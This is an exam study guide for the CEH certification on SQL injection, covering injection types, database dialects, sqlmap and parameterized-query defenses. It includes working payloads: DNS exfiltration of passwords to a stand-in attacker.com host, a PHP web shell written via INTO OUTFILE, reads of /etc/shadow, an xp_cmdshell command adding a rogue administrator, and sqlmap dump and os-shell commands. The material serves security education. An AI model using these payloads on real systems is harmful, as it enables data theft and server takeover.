


<div align="center">




# 🛡️ CEH v13 — Module 15: SQL Injection
### Certified Ethical Hacker (CEH) Exam Notes • In-Band (UNION & Error-Based) • Blind (Boolean & Time-Based) • Out-of-Band • Database Fingerprinting • Sqlmap Masterclass • Defense

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 15: SQL Injection. Covers the complete spectrum of SQL injection techniques: In-Band exploitation (UNION-based column alignment, Error-based casting), Inferential Blind injection (Boolean differential analysis, Time-based delayed responses), Out-of-Band (OOB) DNS exfiltration, cross-database fingerprinting (MySQL, MSSQL, Oracle, PostgreSQL), system takeover via xp_cmdshell and INTO OUTFILE, enterprise automated exploitation with sqlmap, and parameterized query defenses.</b>
</p>

[📖 Module Hub](../README.md) • [🧰 Web Pentesting Tools](../../tools/README.md) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. SQL Injection Architecture & Mechanics](#1-sql-injection-architecture--mechanics)
  - [The Fundamental Flaw: Code vs. Data Confusion](#the-fundamental-flaw-code-vs-data-confusion)
  - [SQLi Taxonomy Matrix](#sqli-taxonomy-matrix)
- [2. In-Band SQL Injection (Classic)](#2-in-band-sql-injection-classic)
  - [UNION-Based SQL Injection](#union-based-sql-injection)
  - [The 2 Golden Rules of UNION Attacks](#the-2-golden-rules-of-union-attacks)
  - [Error-Based SQL Injection](#error-based-sql-injection)
- [3. Inferential (Blind) SQL Injection](#3-inferential-blind-sql-injection)
  - [Boolean-Based Blind SQLi](#boolean-based-blind-sqli)
  - [Time-Based Blind SQLi](#time-based-blind-sqli)
- [4. Out-of-Band (OOB) SQL Injection](#4-out-of-band-oob-sql-injection)
  - [DNS Exfiltration & SMB Relay Mechanics](#dns-exfiltration--smb-relay-mechanics)
- [5. Cross-Database Fingerprinting & Dialects](#5-cross-database-fingerprinting--dialects)
  - [Cheat Sheet: Comments, Concatenation, and Version Strings](#cheat-sheet-comments-concatenation-and-version-strings)
  - [Schema Navigation: Information Schema vs. System Tables](#schema-navigation-information-schema-vs-system-tables)
- [6. Advanced Exploitation: Reading Files & OS Code Execution](#6-advanced-exploitation-reading-files--os-code-execution)
  - [Writing Web Shells: MySQL `INTO OUTFILE`](#writing-web-shells-mysql-into-outfile)
  - [Reading Host Files: `LOAD_FILE()` and `pg_read_file()`](#reading-host-files-load_file-and-pg_read_file)
  - [Executing Shell Commands: MSSQL `xp_cmdshell`](#executing-shell-commands-mssql-xp_cmdshell)
- [7. Automated Exploitation: The Sqlmap Masterclass](#7-automated-exploitation-the-sqlmap-masterclass)
  - [Core Flags & Target Specification](#core-flags--target-specification)
  - [Database Enumeration, Shell Spawning, and Tamper Scripts](#database-enumeration-shell-spawning-and-tamper-scripts)
- [8. Defensive Hardening & Countermeasures](#8-defensive-hardening--countermeasures)
  - [Primary Defense: Prepared Statements (Parameterized Queries)](#primary-defense-prepared-statements-parameterized-queries)
  - [Secondary Defenses: Stored Procedures & Principle of Least Privilege](#secondary-defenses-stored-procedures--principle-of-least-privilege)
- [9. Master Decision Tree & Flowchart](#9-master-decision-tree--flowchart)
- [10. CEH v13 Exam Essentials & Distinction Matrix](#10-ceh-v13-exam-essentials--distinction-matrix)

---

## 1. SQL Injection Architecture & Mechanics

### The Fundamental Flaw: Code vs. Data Confusion

SQL Injection occurs when untrusted user data is concatenated directly into a dynamic SQL query string without proper sanitization, escaping, or parameterization. This allows an attacker's input to break out of the data context and be interpreted as **executable SQL commands** by the database engine:

```sql
-- Vulnerable Backend Code:
SELECT * FROM users WHERE username = '$user' AND password = '$password';

-- Attacker Input in Username field:
admin' --

-- Resulting Query Executed by Database:
SELECT * FROM users WHERE username = 'admin' --' AND password = '...';
-- The single quote breaks out of the string literal; 
-- The double dash (--) comments out the password verification entirely!
```

---

### SQLi Taxonomy Matrix

```
+--------------------------------------------------------------------------+
|                        THE THREE SQLi CATEGORIES                         |
+--------------------------------------------------------------------------+
|  1. IN-BAND SQLi (Classic):                                              |
|  The same channel used to launch the attack is used to retrieve data.    |
|  - UNION-based: Merges attacker query results with application results.  |
|  - Error-based: Forces database to leak data inside verbose error text.  |
+--------------------------------------------------------------------------+
|  2. INFERENTIAL (BLIND) SQLi:                                            |
|  No data is visible in the HTTP response; attacker infers information by |
|  observing application behavior.                                         |
|  - Boolean-based: Asks True/False questions; checks HTTP status/body.   |
|  - Time-based: Injects sleep commands; checks HTTP response delay.       |
+--------------------------------------------------------------------------+
|  3. OUT-OF-BAND (OOB) SQLi:                                              |
|  Used when application responses are silent and network delays are       |
|  unreliable. Forces database to send data over DNS or SMB protocols      |
|  to an external server controlled by the attacker.                       |
+--------------------------------------------------------------------------+
```

---

## 2. In-Band SQL Injection (Classic)

### UNION-Based SQL Injection

The `UNION` operator allows attackers to append the results of an injected `SELECT` statement to the original query executed by the application.



#### The 2 Golden Rules of UNION Attacks (Must-Know CEH Concept)
1. **Equal Number of Columns**: The injected `SELECT` statement **must return the exact same number of columns** as the original query.
2. **Compatible Data Types**: The data types of corresponding columns in both queries must be mutually compatible (e.g., cannot place a string into an integer column in strict databases like Oracle or PostgreSQL).

```sql
-- Step 1: Finding column count (If 4 throws error, count is 3)
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- - (Error: Unknown column 4)

-- Step 2: Testing text compatibility across 3 columns
' UNION SELECT 'a', NULL, NULL-- -
' UNION SELECT NULL, 'a', NULL-- -
' UNION SELECT NULL, NULL, 'a'-- -

-- Step 3: Extracting database version and current user
' UNION SELECT NULL, @@version, user()-- -
```

---

### Error-Based SQL Injection

Used when the application displays detailed database error messages. Attackers construct mathematical or conversion queries that deliberately fail, forcing the database engine to output sensitive table data inside the error message:

```sql
-- MSSQL: Conversion failure leaks database version
' AND 1=CONVERT(int, (SELECT @@version))--

-- MySQL: Using extractvalue() XML function
' AND extractvalue(rand(), concat(0x3a, (SELECT database())))--

-- PostgreSQL: CAST error
' AND 1=CAST((SELECT current_user) AS int)--
```

---

## 3. Inferential (Blind) SQL Injection

### Boolean-Based Blind SQLi

When an application does not display query data or error messages, but responds differently depending on whether an injected condition evaluates to `TRUE` or `FALSE` (e.g., displaying "User Found" vs. "User Not Found"):

```sql
-- TRUE condition (Page returns normal content)
' AND 1=1-- -

-- FALSE condition (Page returns missing content or 404)
' AND 1=2-- -

-- Extracting database name character-by-character using SUBSTRING:
-- Testing if the first letter of the database name is 'a' (ASCII 97)
' AND ASCII(SUBSTRING((SELECT database()), 1, 1)) = 97-- -
```

---

### Time-Based Blind SQLi

When the application returns identical responses regardless of boolean truth values, attackers inject time-delay commands. If the delay executes, the condition evaluated to `TRUE`:

```sql
-- Microsoft SQL Server (5-second pause)
'; IF (1=1) WAITFOR DELAY '0:0:5'--

-- MySQL (5-second sleep)
' AND IF(1=1, SLEEP(5), 0)-- -

-- PostgreSQL (5-second pause)
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- Oracle (Using DBMS_PIPE / DBMS_LOCK)
' AND 1=dbms_pipe.receive_message('RDS', 5)--
```

---

## 4. Out-of-Band (OOB) SQL Injection

When egress network traffic is restricted but external DNS resolution is permitted, attackers force the database engine to perform a DNS lookup containing exfiltrated credentials in the subdomain label:

```
[ Target Web Server & Database ]
               |
               | 1. Injected query: SELECT LOAD_FILE(CONCAT('\\\\', user_password, '.attacker.com\\share'))
               v
[ Local Recursive DNS Resolver ]
               |
               | 2. Resolves 'secretpass123.attacker.com'
               v
[ Attacker Authoritative Nameserver (ns.attacker.com) ]
               |
               | 3. Attacker logs incoming DNS query: 
               v    "secretpass123.attacker.com" -> Exfiltration Complete!
```

```sql
-- MSSQL: Triggering DNS lookup via xp_dirtree
'; EXEC master..xp_dirtree '\\' + (SELECT TOP 1 password FROM users) + '.attacker.com\a'--

-- Oracle: Triggering DNS lookup via UTL_INADDR
SELECT UTL_INADDR.get_host_address((SELECT user FROM dual) || '.attacker.com') FROM dual;
```

---

## 5. Cross-Database Fingerprinting & Dialects

### Cheat Sheet: Comments, Concatenation, and Version Strings

| Database Engine | Line Comment Syntax | String Concatenation | Version Query | Current User Query |
| :--- | :--- | :--- | :--- | :--- |
| **MySQL / MariaDB** | `-- ` (space required) or `#` | `CONCAT('a', 'b')` | `SELECT @@version` | `SELECT user()` |
| **Microsoft SQL Server (MSSQL)**| `--` | `'a' + 'b'` | `SELECT @@version` | `SELECT user_name()` |
| **PostgreSQL** | `--` | `'a' \|\| 'b'` | `SELECT version()` | `SELECT current_user` |
| **Oracle** | `--` | `'a' \|\| 'b'` | `SELECT * FROM v$version` | `SELECT user FROM dual` |

---

### Schema Navigation: Information Schema vs. System Tables

```sql
-- 1. Extracting all database names (MySQL, Postgres, MSSQL)
SELECT schema_name FROM information_schema.schemata;

-- 2. Extracting table names for target database 'corporate'
SELECT table_name FROM information_schema.tables WHERE table_schema = 'corporate';

-- 3. Extracting column names for table 'employees'
SELECT column_name FROM information_schema.columns WHERE table_name = 'employees';

-- 4. Oracle Schema Navigation (Requires querying Oracle Data Dictionary)
SELECT table_name FROM all_tables;
SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS';
```

---

## 6. Advanced Exploitation: Reading Files & OS Code Execution

### Writing Web Shells: MySQL `INTO OUTFILE`

If MySQL runs as `root` or possesses the `FILE` privilege, and `secure_file_priv` is empty, an attacker can write a backdoor web shell directly into the web root directory:

```sql
' UNION SELECT NULL, '<?php system($_GET["cmd"]); ?>', NULL INTO OUTFILE '/var/www/html/shell.php'-- -
```

```bash
# Executing arbitrary system commands through the dropped shell
curl "http://target.com/shell.php?cmd=id;whoami"
```

---

### Reading Host Files

```sql
-- MySQL: Reading sensitive files from disk
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3-- -

-- PostgreSQL: Reading files
' UNION SELECT 1, pg_read_file('/etc/shadow'), 3-- -
```

---

### Executing Shell Commands: MSSQL `xp_cmdshell`

In Microsoft SQL Server, the extended stored procedure **`xp_cmdshell`** allows database administrators to execute commands directly in the Windows operating system shell:

```sql
-- Step 1: Enable advanced configuration options
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

-- Step 2: Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Step 3: Execute OS command to add a rogue local administrator
EXEC master..xp_cmdshell 'net user hacker Password123! /add && net localgroup administrators hacker /add';
```

---

## 7. Automated Exploitation: The Sqlmap Masterclass

### Core Flags & Target Specification

**Sqlmap** is the premier automated SQL injection and database takeover tool tested on CEH v13:

```bash
# Basic scan targeting a specific vulnerable URL parameter
sqlmap -u "http://target.com/profile.php?id=10" --batch

# Scanning a raw saved HTTP request file from Burp Suite (Targets POST data & headers)
sqlmap -r request.txt -p id --level=5 --risk=3

# Enumerating databases, tables, and dumping credentials
sqlmap -u "http://target.com/profile.php?id=10" --dbs
sqlmap -u "http://target.com/profile.php?id=10" -D enterprise --tables
sqlmap -u "http://target.com/profile.php?id=10" -D enterprise -T accounts --dump

# Spawning an interactive operating system shell (xp_cmdshell / UDF injection)
sqlmap -u "http://target.com/profile.php?id=10" --os-shell

# Bypassing Web Application Firewalls (WAF) using Tamper scripts
sqlmap -u "http://target.com/profile.php?id=10" --tamper=space2comment,between,randomcase
```

---

## 8. Defensive Hardening & Countermeasures

### Primary Defense: Prepared Statements (Parameterized Queries)

Parameterized queries represent the **only true structural defense** against SQL injection. The query structure is compiled and defined beforehand; user input is passed strictly as a parameter (literal data) and is never executed as code:

```java
// SECURE: Java Prepared Statement
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, userInputUsername);
pstmt.setString(2, userInputPassword);
ResultSet results = pstmt.executeQuery();
```

```php
// SECURE: PHP PDO Parameterized Query
$stmt = $pdo->prepare('SELECT id, email FROM accounts WHERE username = :user');
$stmt->execute(['user' => $userInput]);
$user = $stmt->fetch();
```

---

## 9. Master Decision Tree & Flowchart

```
                          [ SUSPECT SQL INJECTION POINT ]
                                         |
                       Does the page reflect query data?
                                  /            \
                                YES             NO
                               /                 \
                      [ IN-BAND SQLi ]     Does it return DB error messages?
                       /            \             /              \
            UNION-BASED          ERROR-BASED    YES               NO
            (Column alignment     (Casting flaws) |          [ BLIND SQLi ]
             via ORDER BY)                        |          /            \
                                              ERROR-BASED  BOOLEAN       TIME-BASED
                                                           (AND 1=1     (SLEEP /
                                                            vs 1=2)     WAITFOR DELAY)
```

---

## 10. CEH v13 Exam Essentials & Distinction Matrix

| Concept / Technique | Essential CEH Exam Distinction |
| :--- | :--- |
| **In-Band vs. Blind SQLi** | **In-Band** returns data directly in the same HTTP channel (UNION or Error). **Blind** displays no data directly; results are inferred through Boolean logic or Time delays. |
| **UNION Attack Requirements** | Injected query must have the **exact same number of columns** AND **compatible data types** with the original query. |
| **Determining Column Count** | Achieved by incrementing **`ORDER BY n`** until the query generates a runtime error. |
| **MSSQL Command Execution** | The extended stored procedure **`xp_cmdshell`** allows execution of host OS commands in Windows. |
| **MySQL Web Shell Writing** | **`INTO OUTFILE`** writes a file directly to the web server's document root (requires `FILE` privilege and appropriate `secure_file_priv`). |
| **Primary SQLi Defense** | **Prepared Statements (Parameterized Queries)** strictly separate SQL code from user data. Stored procedures are only secure if parameterized! |
| **Blind Time Delay Functions** | MSSQL: `WAITFOR DELAY '0:0:5'`. MySQL: `SLEEP(5)`. PostgreSQL: `pg_sleep(5)`. |

---

<div align="center">

[⬅️ Previous: Module 14 — Hacking Web Applications](../Module%2014/README.md) • [Next: Module 16 — Hacking Wireless Networks ➡️](../Module%2016/README.md)

</div>
